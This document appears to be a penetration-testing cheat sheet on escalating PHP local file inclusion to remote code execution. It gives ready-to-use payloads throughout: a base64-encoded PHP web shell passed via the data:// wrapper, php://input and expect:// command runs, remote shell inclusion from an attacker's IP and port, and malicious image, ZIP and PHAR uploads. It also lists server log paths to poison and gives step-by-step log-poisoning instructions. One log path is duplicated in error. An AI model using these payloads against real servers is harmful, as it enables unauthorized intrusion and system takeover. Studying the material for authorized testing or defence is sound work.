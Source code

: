 ### **INTRODUCTION**

Remote Code Execution (RCE) is a vulnerability that enables an attacker to execute arbitrary commands on a remote system. This exploit allows the attacker to manipulate or access data, disrupt system operations, or gain elevated privileges.

### **REMOTE CODE EXECUTION (RCE)**

1.  Data Wrapper: Executes commands encoded directly in the URL.  
    `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id`
    
2.  Input Wrapper: Runs commands from data sent in a web request.  
    `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://[DOMAIN_NAME]/index.php?language=php://input&cmd=whoami"`
    
3.  Expect Wrapper: Executes commands using the Expect PHP wrapper.  
    `curl -s "http://[DOMAIN_NAME]/index.php?language=expect://id"`
    
4.  Remote PHP Shell: Uses a remote PHP script to execute commands.  
    `/index.php?language=http://[IP-ADDRESS]:[LISTENING-PORT]/shell.php&cmd=id`
    
5.  Malicious Image Upload: Executes code hidden within an image file.  
    `/index.php?language=./profile_images/shell.gif&cmd=id`
    
6.  Malicious ZIP Upload: Runs PHP code hidden inside a ZIP file.  
    `/index.php?language=zip://shell.zip#shell.php&cmd=id`
    
7.  Malicious PHAR Upload: Executes code from a PHP archive disguised as an image file.  
    `/index.php?language=phar://./profile_images/shell.jpg/shell.txt&cmd=id`
    

### **TARGET LOGS FOR RCE POISONING**

Logs vulnerable to RCE poisoning often include user inputs or error information:

1.  Access Logs:  
    `/var/log/apache2/access.log`, `/var/log/httpd-access.log`
2.  Error Logs:  
    `/var/log/apache2/error.log`, `/var/log/apache/error.log`
3.  Logs to Tracks authentication attempts.  
    `/var/log/auth.log`
4.  Logs security details, used in systems with SELinux.  
    `/var/log/secure`
5.  Logs For web applications.  
    `/var/www/logs/access_log`
6.  Logs for Webmin tool.  
    `/var/webmin/miniserv.log`
7.  Logs from Lighttpd web server.  
    `/var/log/lighttpd/access.log`
8.  Logs from ProFTPD server.  
    `/var/log/lighttpd/access.log` -

### **STEP-BY-STEP PROCESS FOR RCE POISONING**

1.  Inject the Payload: This involves modifying the User-Agent string, other header fields, or the content of a request that you know will be logged.  
    `<?php system($_GET['cmd']); ?>`.
    
2.  Exploit LFI Vulnerability: Use an existing Local File Inclusion (LFI) vulnerability to include the poisoned log file in a web page's execution path.  
    `http://[DOMAIN_NAME]/index.php?file=../../../../var/log/apache2/access.log`
    
3.  Execute the Payload: Add a command to the URL as a parameter if the payload is designed to be executed via a GET request.  
    `http://[RFI-URL]/vulnerable_page.php?file=../../../../var/log/apache2/access.log&cmd=whoami`